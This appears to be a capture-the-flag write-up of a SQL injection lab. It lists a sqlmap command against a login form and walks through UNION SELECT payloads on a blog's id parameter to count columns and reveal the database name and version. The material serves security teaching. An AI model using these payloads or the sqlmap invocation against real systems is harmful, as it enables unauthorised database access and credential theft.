 <span>&nbsp;</span>

### Blind SQL Injection on /login
- **Vector:** POST parameters (username).

- **Proof of Concept**:   
    ```SQL
    sqlmap -r request.txt --dbms=mysql --batch --level=3 --risk=3
    ```

- **Impact:** Extraction of credentials from sqhell_2. Privilege escalation and access to protected content (e.g., admin-only flag).

<span>&nbsp;</span>

## Walktrough
At the start there is blog site.  

![image](https://github.com/user-attachments/assets/86bd1fda-4606-45f5-9a96-9a4f0b9a992d)

The second blog post is selected for initial testing.
```SQL
/post?id=2
```

The id parameter is likely used in a backend SQL query such as:

```SQL
SELECT * from blog where id=2...
```

Add a single quote after id number to test for SQL injection.

![image-1](https://github.com/user-attachments/assets/e7348f9f-eea5-43ba-ae08-ae18b10a844f)

This returns an SQL syntax error, confirming that user input is not properly sanitized and is directly inserted into an SQL query. The error message also confirms that the backend database is MySQL.

<span>&nbsp;</span>

Use a UNION SELECT payload to identify how many columns the original query returns. A response with no error indicates there are four columns.
```SQL
/post?id=2 UNION SELECT 1,2,3,4
```

![image-31](https://github.com/user-attachments/assets/c2ce63f7-d869-4049-9c3f-1a674af74661)

The next step is to extract database information using built-in MySQL functions such as DATABASE() and VERSION().
```SQL
/post?id=-1 UNION SELECT 1,DATABASE(),VERSION(),4- -
```  
![image-32](https://github.com/user-attachments/assets/973682ec-98b0-4336-aaa7-d27b03f6d1b3)


The query reveals that the current database in use is named sqhell_5.
